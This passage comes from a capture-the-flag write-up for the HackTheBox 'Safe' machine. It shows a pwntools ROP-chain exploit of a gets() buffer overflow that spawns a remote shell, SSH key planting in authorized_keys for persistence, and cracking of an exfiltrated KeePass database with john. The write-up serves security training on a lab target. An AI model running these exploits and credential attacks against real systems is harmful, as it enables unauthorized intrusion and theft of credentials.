      XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXYYYYYYYYZZZZZZZZ
    

and paste it in the binary to examine the registers 
    
    
      gef➤  r
      Starting program: /home/nihilist/_HTB/Safe/Ghidra/myapp
      [Detaching after vfork from child process 14017]
       09:56:05 up 16:17,  1 user,  load average: 1.69, 1.21, 1.09
    
      What do you want me to echo back? XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXYYYYYYYYZZZZZZZZ
      XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXYYYYYYYYZZZZZZZZ
    
      gef➤  registers
      $rax   : 0x0
      $rbx   : 0x0
      $rcx   : 0x00007ffff7edc904  →  0x5477fffff0003d48 ("H="?)
      $rdx   : 0x00007ffff7fad580  →  0x0000000000000000
      $rsp   : 0x00007fffffffe438  →  "XXXXXXXXYYYYYYYYZZZZZZZZ"
      $rbp   : 0x5858585858585858 ("XXXXXXXX"?)
      $rsi   : 0x00000000004052a0  →  "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
      $rdi   : 0x0
      $rip   : 0x00000000004011ac  →  <****main+77> ret
      $r8    : 0x91
      $r9    : 0x5858585858585858 ("XXXXXXXX"?)
      $r10   : 0x5858585858585858 ("XXXXXXXX"?)
      $r11   : 0x246
      $r12   : 0x0000000000401070  → <_start+0> xor ebp, ebp
      $r13   : 0x00007fffffffe510  →  0x0000000000000001
      $r14   : 0x0
      $r15   : 0x0
      $eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
      $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
      gef➤
    

So, if we can put a memory address where the Xs are, we can continue with the execution of the program. For example we can put the memory address of main so let's take a look back at ghidra, to see what the memory address of main is.

Now we know that the main function is at the 0x40115f memory address. From there we can create a python script to interact with it a little further.
    
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Safe/Ghidra]
    → nano exploit.py
    
    
    
      #0x40115f - main
    from pwn import *
    context(terminal=['tmux','new-window'])
    p = gdb.debug('./myapp','b main')
    context(os='linux',arch='amd64')
    
    junk = ("A" * 120).encode()
    call_main = p64(0x40115f)
    
    p.recvuntil('What do you want me to echo back ?')
    p.sendline(j + call_main)
    
    
    
      python3 exploit.py
    
    
    
      ─────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
      $rax   : 0x0
      $rbx   : 0x0
      $rcx   : 0x0
      $rdx   : 0x0
      $rsp   : 0x00007fff98990520  →  0x0000000000000001
      $rbp   : 0x0
      $rsi   : 0x0
      $rdi   : 0x0
      $rip   : 0x00007fd2a202e090  →  <_start+0> mov rdi, rsp
      $r8    : 0x0
      $r9    : 0x0
      $r10   : 0x0
      $r11   : 0x0
      $r12   : 0x0
      $r13   : 0x0
      $r14   : 0x0
      $r15   : 0x0
      $eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
      $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
      ─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
      0x00007fff98990520│+0x0000: 0x0000000000000001   ← $rsp
      0x00007fff98990528│+0x0008: 0x00007fff98992748  →  0x00707061796d2f2e ("./myapp"?)
      0x00007fff98990530│+0x0010: 0x0000000000000000
      0x00007fff98990538│+0x0018: 0x00007fff98992750  →  "APPDIR=/tmp/.mount_tmtxDoJV"
      0x00007fff98990540│+0x0020: 0x00007fff9899276c  →  "APPIMAGE=/tmp/tm"
      0x00007fff98990548│+0x0028: 0x00007fff9899277d  →  "COLORTERM=truecolor"
      0x00007fff98990550│+0x0030: 0x00007fff98992791  →  "DISPLAY=:0.0"
      0x00007fff98990558│+0x0038: 0x00007fff9899279e  →  "HOME=/root"
      ───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
         0x7fd2a202e08a                  add    BYTE PTR [rax], al
         0x7fd2a202e08c                  add    BYTE PTR [rax], al
         0x7fd2a202e08e                  add    BYTE PTR [rax], al
       → 0x7fd2a202e090 <_start+0>       mov    rdi, rsp
         0x7fd2a202e093 <_start+3>       call   0x7fd2a202ee80 <_dl_start>
         0x7fd2a202e098 <_dl_start_user+0> mov    r12, rax
         0x7fd2a202e09b <_dl_start_user+3> mov    eax, DWORD PTR [rip+0x27597]        # 0x7fd2a2055638 <_dl_skip_args>
         0x7fd2a202e0a1 <_dl_start_user+9> pop    rdx
         0x7fd2a202e0a2 <_dl_start_user+10> lea    rsp, [rsp+rax*8]
      ───────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
      [#0] Id 1, Name: "myapp", stopped, reason: SIGTRAP
      ─────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
      [#0] 0x7fd2a202e090 → _start()
      ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
      Reading /lib64/ld-linux-x86-64.so.2 from remote target...
      Breakpoint 1 at 0x401163
    

So here we hit our first breakpoint which is main, we do continue with the c command
    
    
      gef➤  c
      Continuing.
      Reading /lib/x86_64-linux-gnu/libc.so.6 from remote target...
    
      Breakpoint 1, 0x0000000000401163 in main ()
      __main__:2421: DeprecationWarning: invalid escape sequence '\'
      [ Legend: Modified register | Code | Heap | Stack | String ]
      ─────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
      $rax   : 0x000000000040115f  →  <****main+0> push rbp
      $rbx   : 0x0
      $rcx   : 0x00007fd2a2007718  →  0x00007fd2a2009a40  →  0x0000000000000000
      $rdx   : 0x00007fff98990538  →  0x00007fff98992750  →  "APPDIR=/tmp/.mount_tmtxDoJV"
      $rsp   : 0x00007fff98990440  →  0x00000000004011b0  → <__libc_csu_init+0> push r15
      $rbp   : 0x00007fff98990440  →  0x00000000004011b0  →  <__libc_csu_init+0> push r15
      $rsi   : 0x00007fff98990528  →  0x00007fff98992748  →  0x00707061796d2f2e ("./myapp"?)
      $rdi   : 0x1
      $rip   : 0x0000000000401163  →  <****main+4> sub rsp, 0x70
      $r8    : 0x00007fd2a2009a50  →  0x0000000000000004
      $r9    : 0x00007fd2a203c780  → <_dl_fini+0> push rbp
      $r10   : 0xffffffff
      $r11   : 0x4
      $r12   : 0x0000000000401070  →  <_start+0> xor ebp, ebp
      $r13   : 0x00007fff98990520  →  0x0000000000000001
      $r14   : 0x0
      $r15   : 0x0
      $eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
      $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
      ─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
      0x00007fff98990440│+0x0000: 0x00000000004011b0  →  <__libc_csu_init+0> push r15  ← $rsp, $rbp
      0x00007fff98990448│+0x0008: 0x00007fd2a1e74bbb  →  <__libc_start_main+235> mov edi, eax
      0x00007fff98990450│+0x0010: 0x0000000000000000
      0x00007fff98990458│+0x0018: 0x00007fff98990528  →  0x00007fff98992748  →  0x00707061796d2f2e ("./myapp"?)
      0x00007fff98990460│+0x0020: 0x0000000100400000
      0x00007fff98990468│+0x0028: 0x000000000040115f  →  <****main+0> push rbp
      0x00007fff98990470│+0x0030: 0x0000000000000000
      0x00007fff98990478│+0x0038: 0xe451416c2c196dfa
      ───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
           0x40115e <****test+12>        ret
           0x40115f <****main+0>         push   rbp
           0x401160 <****main+1>         mov    rbp, rsp
       →   0x401163 <****main+4>         sub    rsp, 0x70
           0x401167 <****main+8>         lea    rdi, [rip+0xe9a]        # 0x402008
           0x40116e <****main+15>        call   0x401040 <****system@plt>
           0x401173 <****main+20>        lea    rdi, [rip+0xe9e]        # 0x402018
           0x40117a <****main+27>        mov    eax, 0x0
           0x40117f <****main+32>        call   0x401050 <****printf@plt>
      ───────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
      [#0] Id 1, Name: "myapp", stopped, reason: BREAKPOINT
      ─────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
      [#0] 0x401163 → main()

Here we hit another breakpoint on main. To see what we can do let's return to ghidra, we want to somehow hijack the systemcall in our main function even though we don't have a way to put something on the stack. 
    
    
      undefined8 main(void)
    
      {
        char local_78 [112];
    
        system("/usr/bin/uptime");
        printf("\nWhat do you want me to echo back? ");
        gets(local_78);
        puts(local_78);
        return 0;
      }
    

in ghidra still, we check what is the system()'s memory address 

Now that we know system()'s memory address, we can run our exploit.py again accordingly back into gef
    
    
      Breakpoint 1 at 0x401163
      gef➤  b *0x40116e
      Breakpoint 2 at 0x40116e
      gef➤  c
    

now that we set our second breakpoint at the system call's memory address, we can continue, but the execution will halt where we want. 
    
    
       0x40115e <****test+12>        ret
       0x40115f <****main+0>         push   rbp
       0x401160 <****main+1>         mov    rbp, rsp
    →  0x401163 <****main+4>         sub    rsp, 0x70
       0x401167 <****main+8>         lea    rdi, [rip+0xe9a]        # 0x402008
       0x40116e <****main+15>        call   0x401040 <****system@plt>
       0x401173 <****main+20>        lea    rdi, [rip+0xe9e]        # 0x402018
       0x40117a <****main+27>        mov    eax, 0x0
       0x40117f <****main+32>        call   0x401050 <****printf@plt>

we halted 2 lines before the systemcall. First we are loading the first variable into rdi which is "/usr/bin/uptime" we can verify it with the following : 
    
    
      gef➤  x/s $rdi
      0x1:            <****error: Cannot access memory at address 0x1>
    
      gef➤  c
    
      gef➤  x/s $rdi
      0x402008:       "/usr/bin/uptime"

doing so we can see the variable "/usr/bin/uptime" getting loaded into rdi, we can verify it using the registers command. From there Our goal is to find a way to put our string into $rdi, so that instead of calling uptime, the system will call something else. we change our exploit.py accordingly, adding the ropchain
    
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Safe/Ghidra]
    → objdump -D myapp | grep -i system
      0000000000401040 <****system@plt>:
      401040:	ff 25 da 2f 00 00    	jmpq   *0x2fda(%rip)        # 404020 <****system@GLIBC_2.2.5>
      40116e:	e8 cd fe ff ff       	callq  401040 <****system@plt>
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Safe/Ghidra]
      → objdump -D myapp | grep -i test
        40100b:	48 85 c0             	test   %rax,%rax
        4010c2:	48 85 c0             	test   %rax,%rax
        401104:	48 85 c0             	test   %rax,%rax
      0000000000401152 :
    
    
      λ nihilist [ 10.10.14.10/23 ] [_HTB/Safe/Ghidra]
      → nano exploit.py
    

So we need the jump instruction here, at the memory address 0x401040 and the test function's memory address 0x401152 to modify our python script accordingly
    
    
      #0x40115f - main
      #0x40116e - system
      #0x401206 - pop r13, pop, pop
    
      from pwn import *
      context(terminal=['tmux','new-window'])
      #p = gdb.debug('./myapp','b main')
      p = remote('10.10.10.147', 1337)
      context(os='linux',arch='amd64')
    
    
      junk = ("A" * 112).encode()
      bin_sh = "/bin/sh\x00".encode()
      system = p64(0x40116e) # could also be 401040
      pop_r13 = p64(0x401206) # later used as r13 (treat as rsp)
      null = p64(0x0)
      test = p64(0x401152) # RSP => RDI , JMP R13
    
      #p.recvuntil('What do you want me to echo back ?')
      p.sendline(junk + bin_sh + pop_r13 + system + null + null + test)
      p.interactive()
    

Looking at the last 2 lines, first we trigger the buffer overflow, then place in the bin_sh variable into the rsp register, then it is going to put the system memory location into r13, then going through the other 2 pops in that chain (with the 2 null bytes), to then finally return to test, therefore test will now execute it. p.interactive() will hopefully allow us to have an interactive shell onto the system.
    
    
      λ root [ 10.10.14.10/23 ] [_HTB/Safe/Ghidra]
      → python3 exploit.py
      [+] Opening connection to 10.10.10.147 on port 1337: Done
      [*] Switching to interactive mode
       04:58:56 up 18:49,  0 users,  load average: 0.00, 0.00, 0.00
      $ uname -a
      Linux safe 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1 (2019-04-12) x86_64 GNU/Linux
      $ cat /home/user/user.txt
      7aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag :) 

## **Part 3 : Getting Root Access**

Before we start to privesc, let's first upgrade our shell since gdb's shell is all weird we don't really know how to get a full TTY

_Terminal 1:_
    
    
      λ root [ 10.10.14.10/23 ] [_HTB/Safe/Ghidra]
    → ssh-keygen -f safe
    Generating public/private rsa key pair.
    Enter passphrase (empty for no passphrase):
    Enter same passphrase again:
    Your identification has been saved in safe.
    Your public key has been saved in safe.pub.
    The key fingerprint is:
    SHA256:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX root@prometheus
    λ root [ 10.10.14.10/23 ] [_HTB/Safe/Ghidra]
    → chmod 600 safe
    
    λ root [ 10.10.14.10/23 ] [_HTB/Safe/Ghidra]
    → cat safe.pub
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC9CrDgoACLstXIV/Y9383Iir29poCf0O56qHFkl/dMUlaW+zCIq9KEkgsHwa6SvItacsc3EObC8CPoc1N2AIR+8K1G0jVaRVMYF5os/0UbTK4pd/xXPqV8WrW4GmK4ntZoa3DCTBkeUPDveOo2i/0Fmwhj9pEFFb7/i4DlM5FwVqbowOmm8AhSXc3QuwlyV+7k8WRWPUGPWf6UCNWo4AUUAKRZvcqmEEx4uft7GjQNiKqn8X+jVanbb2UXqSyA7bPYh5336o/1lluvhUuXVX7MmMh2wbcbMz/gamxIaGI6NDByTl8pls/hcjstoPRVearRji69HlCZcRrJVZ2rf5SPLpAROUmJdHR1L6HYxVWtdvq1VWAUzkwTCWH6FDpJChAMuJeSt6pdG1OjET+KD38VaBlHQujD4lWOANEAlttV1+3o3zvbCEqOrNsag3+hqcFk5rWk9P/Bh1WkI+vOwioslFxckKmt/RcA/4wcNHkYv/0ezr59lrBGVax7RhtZbPc= root@prometheus
    

_Terminal 2:_
    
    
      $ echo 'N2AIR+8K1G0jVaRVMYF5os/0UbTK4pd/xXPqV8WrW4GmK4ntZoa3DCTBkeUPDveOo2i/0Fmwhj9pEFFb7/i4DlM5FwVqbowOmm8AhSXc3QuwlyV+7k8WRWPUGPWf6UCNWo4AUUAKRZvcqmEEx4uft7GjQNiKqn8X+jVanbb2UXqSyA7bPYh5336o/1lluvhUuXVX7MmMh2wbcbMz/gamxIaGI6NDByTl8pls/hcjstoPRVearRji69HlCZcRrJVZ2rf5SPLpAROUmJdHR1L6HYxVWtdvq1VWAUzkwTCWH6FDpJChAMuJeSt6pdG1OjET+KD38VaBlHQujD4lWOANEAlttV1+3o3zvbCEqOrNsag3+hqcFk5rWk9P/Bh1WkI+vOwioslFxckKmt/RcA/4wcNHkYv/0ezr59lrBGVax7RhtZbPc= root@prometheus' > /home/user/.ssh/authorized_keys
    

_Terminal 1:_
    
    
    
    

_Terminal 2:_
    
    
      λ root [ 10.10.14.10/23 ] [_HTB/Safe/files]
      → scp -i ../Ghidra/safe user@10.10.10.147:MyPasswords.kdbx .
      MyPasswords.kdbx                                                                    100% 2446    24.1KB/s   00:00
    
      λ root [ 10.10.14.10/23 ] [_HTB/Safe/files]
      → scp -i ../Ghidra/safe user@10.10.10.147:IMG_0547.JPG .
    
      λ root [ 10.10.14.10/23 ] [_HTB/Safe/files]
      → ls
      MyPasswords.kdbx
    
      λ root [ 10.10.14.10/23 ] [_HTB/Safe/files]
      → file MyPasswords.kdbx
      MyPasswords.kdbx: Keepass password database 2.x KDBX
    
      λ root [ 10.10.14.10/23 ] [_HTB/Safe/files]
      → file IMG_0547.JPG
      IMG_0547.JPG: JPEG image data, baseline, precision 8, 3264x2448, components 3
    
    

So here we have downloaded two of the files we need to privesc. one is a .kdbx file and the other is an image.
    
    
      λ root [ 10.10.14.10/23 ] [_HTB/Safe/files]
    → /usr/sbin/keepass2john MyPasswords.kdbx | sed "s/MyPasswords/IMG_0547.JPG/g"
    IMG_0547.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96
    
    λ root [ 10.10.14.10/23 ] [_HTB/Safe/files]
    → /usr/sbin/keepass2john MyPasswords.kdbx | sed "s/MyPasswords/IMG_0547.JPG/g" > keepass_hash
    

from here we have our keepass hash, let's crack it with john and rockyou.txt 
    
    
      λ root [ 10.10.14.10/23 ] [_HTB/Safe/files]
      → john -w:/usr/share/wordlists/rockyou.txt keepass_hash
      Created directory: /root/.john
      Using default input encoding: UTF-8
      Loaded 1 password hash (KeePass [SHA256 AES 32/64])
      Cost 1 (iteration count) is 60000 for all loaded hashes
      Cost 2 (version) is 2 for all loaded hashes
      Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
      Will run 4 OpenMP threads
      Press 'q' or Ctrl-C to abort, almost any other key for status
      bullshit        (MyPasswords)
    

Good choice for a master password 

    
    
      user@safe:~$ su
      Password:
      root@safe:/home/user# uname -a
      Linux safe 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1 (2019-04-12) x86_64 GNU/Linux
      root@safe:/home/user# cat /root/root.txt
      d7XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to escalate privileges and print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

